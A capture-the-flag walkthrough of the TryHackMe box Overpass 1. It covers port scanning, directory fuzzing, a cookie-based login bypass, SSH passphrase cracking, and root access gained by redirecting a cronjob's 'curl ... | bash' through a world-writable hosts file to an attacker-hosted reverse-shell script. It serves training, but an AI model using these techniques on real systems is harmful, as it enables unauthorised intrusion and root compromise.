# Writeup for Overpass 1 from Tryhackme

## Introduction: 

hello, it's your boy [feltaz](https://www.github.com/feltaz), It's been a very long time since I have written and published a writeup for a machine, so here I am at it again in the tryhackme platform for cybersecurity training with this challenge called Overpass which is part of a practice path with the same name involving 3 challenges for which I will be writing walkthroughs.    
So without further ado let's start with the first Challenge.


## Table of Contents: 
- [Writeup for Overpass 1 from Tryhackme](#writeup-for-overpass-1-from-tryhackme)
  - [Introduction:](#introduction)
  - [Table of Contents:](#table-of-contents)
  - [TLDR:](#tldr)
  - [Challenge description:](#challenge-description)
  - [Reconnaissance:](#reconnaissance)
  - [Overpass Website:](#overpass-website)
    - [Walking the website:](#walking-the-website)
    - [Directory fuzzing](#directory-fuzzing)
    - [Broken Authentication:](#broken-authentication)
  - [Initial Foothold:](#initial-foothold)
    - [Cracking the passphrase:](#cracking-the-passphrase)
    - [March right in:](#march-right-in)
  - [Privilege escalation:](#privilege-escalation)
  - [Conclusion:](#conclusion)

## TLDR: 

If you're lazy like all of us and just want a quick summary of what this box is all about here it is: 
- Leverage a Broken authentication vuln [(OWASP top 10 2021 #7)](https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/) in the website to access admin account.
- Loot a passphrase protected private key and bruteforce the passphrase.
- Use passphrase to gain initial foothold on the machine via ssh.
- Escalate privilege by leveraging a cronjob and unsecure permissions on hosts file. 
## Challenge description:

```
What happens when a group of broke Computer Science students try to make a password manager?
Obviously a perfect commercial success!

There is a TryHackMe subscription code hidden on this box. The first person to find and activate it will get a one month subscription for free! If you're already a subscriber, why not give the code to a friend?

UPDATE: The code is now claimed.
The machine was slightly modified on 2020/09/25. This was only to improve the performance of the machine. It does not affect the process.
```  
I guess it's a bit too late for me to win the subscription code heh.  

## Reconnaissance:  

As always we start with recon using your favorite recon tool.   
I just used [nmap](https://nmap.org/) like a normal person. 

  
``` bash
nmap -sV -sC <VICTIM_IP>
```
I'll break down the scan bit by bit:   
- -sV: is for version detection.
- -sC: is alias for --script=default which executes the default nmap scripts.
- -o is for saving the output to a file so we can save our findings.   

---

***SIDE NOTE:***
I used both `sV` and `sC` right of the bat but in a more real setup I wouldn't normally start with both options, lately I've been using [rustscan](https://github.com/RustScan/RustScan) for a quick initial scan and then would move on to nmap for more in depth port probing.   

---
Okay so what we got here?  
- `port 80` : webserver serving some web content.
- `port 22` : usual port for ssh.  

## Overpass Website: 

### Walking the website:  

So after our initial scan we checkout the website hosted on the target machine.  
Before we let loose on the website it's sometimes super helpful to just `'take a walk'`.   
When I first started out I always tried to force my way in and 'let loose' and just threw stuff at it until it breaks.   

So let's not make you wait any longer this is what the 'broke computer science students' managed to cook up.   


There is also the tempting download page:   

   

So these broke students are offering a password manager to help people keep their passwords safe.  

You can download the password manager and use it and even check out the source code for it which is in [go programming language](https://go.dev/).  

### Directory fuzzing
After walking for a while and not seeing 'the opening thread' we become eager to start running so we put on our running shoes and start fuzzing.   

For this we use [`wfuzz`](https://github.com/xmendez/wfuzz) which is a handy fuzzing tool.   

  

okay the screenshot I took is tiny I'll rewrite it for you don't worry:  


```bash
wfuzz -w <Wordlist> --hc 404 -u http://<VICTIM_IP/FUZZ -f fuzz.out
```  
Let's break down the options used with this one by one:   


- `-w` is for specifying the wordlist, the words in this list will replace the `FUZZ` keyword in the url.
- `--hc` stands for hide code. What wfuzz does in our case is simply requesting web directories using an http GET request asking for the words in the wordlist one by one, so a lot of the time this just returns 404 (which means NOT FOUND in geek land). so we told wfuzz to not output any result that returns 404 to us.  
- `-u` simply specifies the url.
- `-f` again we need to always store our findings.

Fuzzing proved to be quite helpful as we uncovered an /admin endpoint which served as an admin area for the website.  


Finally the opening thread has shown itself!  
### Broken Authentication:
so how to proceed?  
After some trial and error using cavemen techniques such as trying admin:admin, test:test and other unspeakable combinations, I fired up [burp](https://portswigger.net/burp).  

After checking the requests/responses from that endpoint I hit a tiny wall. I went for another walk (I'm talking about the website of course heh). 

In the website source we find a pretty peculiar `login.js` file which had this js code:   

```js
async function postData(url = '', data = {}) {
    // Default options are marked with *
    const response = await fetch(url, {
        method: 'POST', // *GET, POST, PUT, DELETE, etc.
        cache: 'no-cache', // *default, no-cache, reload, force-cache, only-if-cached
        credentials: 'same-origin', // include, *same-origin, omit
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        redirect: 'follow', // manual, *follow, error
        referrerPolicy: 'no-referrer', // no-referrer, *client
        body: encodeFormData(data) // body data type must match "Content-Type" header
    });
    return response; // We don't always want JSON back
}
const encodeFormData = (data) => {
    return Object.keys(data)
        .map(key => encodeURIComponent(key) + '=' + encodeURIComponent(data[key]))
        .join('&');
}
function onLoad() {
    document.querySelector("#loginForm").addEventListener("submit", function (event) {
        //on pressing enter
        event.preventDefault()
        login()
    });
}
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```
 
Basically this is how authentication is handled from the client side. 

It waits for a response from the server and if that response is exactly `"Incorrect Credentials"` you can't login, else it just sets a cookie with the name `"SessionToken"`.  
What we can do is basically just a set a cookie with that name and request the page again. 
As I had the request caught in the repeater I added the cookie header and set the cookie to finally send the request again.   
And what do you know? It worked.  


so we sent this to a browser and found this:  
 


Seems like this James guy is a goldfish who keeps forgetting their password often.  
another thing it says the passphrase of the private key can be cracked, This is good news for us.   

## Initial Foothold: 

### Cracking the passphrase: 

What we have right now is a private key that is protected by a passphrase which we know is "crackable".  

There are a variety of cracking tools available to us, for me I'm pretty comfortable with [john the ripper](https://github.com/openwall/john).   
Before we proceed with cracking the passphrase we first need to extract the hash and "shape" it into a format john would underestand, the team behind `john the ripper` made some tools available to us that do just this.  
In our case we will use [ssh2john](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py) which is a python script that takes a private ssh key and extracts the hash for john to rip. 

the steps are pretty simple its just like so:  

```bash
chmod +x ssh2john.py
./ssh2john <private_key> > private_key.hash
```

then we just feed john the hash so it can start ripping. 

for the wordlist I used the infamous rockyou.txt 

  

And there you have it, the passphrase.  

### March right in:  

Having cracked the passphrase we can use it to log into the machine using ssh:

Don't forget to change file permissions on the private key so ssh won't scream at you


 

Aaand we're in (usually the movies just skip to this part) 

so first things first we grab the flag.  

  

next to the flag we find a todo.txt file that has the following content. 

  

the user's password is supposedly stored in the password manager so let's check that.   

  

Our first instinct is to check sudo rights.   

   
no sudo rights for james, a very wise decision...

moving onto the next item on the list, cronjobs.  
for that we read the contents of the `/etc/crontab` file to see of there are any cronjobs that we can leverage for our privilege escalation. 
 
yup there it is.. 

## Privilege escalation: 


This cronjob says that root should execute the following command every minute.   

```bash
curl overpass.thm/downloads/src/buildscript.sh | bash
```
which practically executes a script from the overpass website.  
I actually scratched my head alot around this one as I was trying to find webroot in the machine (the folder that contains all of the website's content) to change that script and somehow rewrite the content to establish a reverse shell but my efforts were in vain as you see.  



I went even further to see what the script was doing, maybe I could like see if it references some other file that I have access to and would proceed to rewrite that file instead.   

  

Well looking for `overpass.go` or `buildscript.sh` is kinda useless as the script uses a relative path the root's home so we have to find another way.   


After looking around more I remembered that the server resolves the url `overpass.thm`  from its own `/etc/hosts` so I checked that out .  



and checking the permissions for that file We find that the `hosts` file is world writable so anyone can write into it and modify its content.   

*An opportunity comes into light... and the opening thread becomes more apparent*  

To pull this off we need 3 things:  
- Change the hosts file so it points to our attacker's IP instead of localhost. 
- Setup a webserver in our attacking machine with the same path as the one called in curl i.e. creating directory downloads and inside it source and then a file called buildscript.sh for the root account to execute
- Third and lastly the buildscript.sh will contain our payload which is a reverse shell so we need to setup a listener to catch that shell.  
  
First things first we modify hosts file. 

  

and that's done. 

I was using the tryhackme attack machine and that machine has port 80 in use for vnc so it was either the webserver or vnc so obviously I had to find another way.  

I didn't have my kali VM on standby (shame on me) so instead I went for an EC2 instance in aws.   

This isn't part of the challenge don't worry but I think it's cool that we can spin up a vm in like 2 minutes locked and loaded for our commands.  

I created an EC2 instance (free tier of course) 
  
I used  ubnutu server 22.04.
with this user data script

```bash
!#/bin/bash
apt update
apt install openvpn nc python3 -y
```
openvpn is for vpn connection to tryhackme python for the webserver and nc for the reverse shell though i'm pretty sure you'll find nc and python3 already installed. 

I also need to mentioned that I used this security group:  



- port 80 for http 
- port 22 for ssh
- port 4532 is just my lucky number  


after connecting to the vpn we just need to prepare our payload  

 

and then we launch our webserver using python.  

 

we wait for a minute....
I know a cronjob minute is longer than a normal minute you just have to wait. 
 

AAaaand there we have it, we caught the reverse shell and we're now connected as root.  


Without waiting too much after upgrading our reverse shell a little bit for convenience, we can grab the root flag and probe around in the machine to see how the authors designed the box.   


## Conclusion: 

This was a pretty fun box to hack kudos to the author [NinjaJc01](https://tryhackme.com/p/NinjaJc01), remember this is the first box out of 3 others I'll be writing those walkthroughs soon.
I hope you enjoyed this writeup and feel free to contact me for any details that I missed. see you in the next hunt.   

---
***NOTE:***
There is another way to bypass authentication in the website, If you paid enough attention you'll easily get it, The solution will be left as an exercise for the reader (Now I understand why my profs always say that, It feels good).